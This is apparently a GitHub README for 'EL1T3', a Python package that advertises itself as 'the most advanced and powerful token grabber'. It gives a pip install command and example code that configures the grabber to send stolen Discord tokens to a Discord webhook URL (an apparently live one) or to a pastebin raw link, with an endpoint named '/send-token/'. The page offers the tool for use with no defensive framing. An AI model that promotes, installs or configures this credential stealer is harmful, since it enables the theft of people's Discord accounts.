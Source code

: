<h1 align="center">🦄<br>THE EL1T3 PROJECT</h1>

<p align="center">
  <b>Some link:</b><br>
  <a href="https://discord.gg/4cajZdYpgS">Discord</a> |
  <a href="https://www.youtube.com/channel/UC09GPm24_rdeOXa5KOmhDnw">YouTube</a> |
  <a href="https://github.com/Its-Vichy">Github</a> |
  <a href="https://pypi.org/project/EL1T3">PyPI Package</a><br>
  <br>
  <img src="https://media.discordapp.net/attachments/813683001496961065/813783642265747516/6869f4cf0c2f7349903668b562c4e403.gif">
</p>
<h1 align="center">FAST SETUP</h1>

## 💡 Tips:
- **Install module with**: ``pip install EL1T3``
- ``dynamic_url`` **is used for RAW link, set this parameter to ``True`` if your webhook is on a raw (pastebin etc...)**

## 👀 Exemple Code:
```py
from EL1T3 import EL1T3

# Direct Url
EL1T3(dynamic_url= False, webhook_url= "https://discord.com/api/webhooks/816422104949719050/M-BU_eGHYUggYt0UhgKmU7GDUZ6L9bvSQcS08yVmeucGkWzeIYcXVcL3LMxSy5e23way", api_url= 'http://127.0.0.1:1337/send-token/')

# RAW Url
EL1T3(dynamic_url= True, webhook_url= "https://pastebin.com/raw/bNcRrQiK", api_url= 'http://127.0.0.1:1337/send-token/')
```

<h1 align="center">API RELEASE SOON<br>"тнe мoѕт αdvαɴced αɴd powerғυl тoĸeɴ ɢrαввer"</h1>
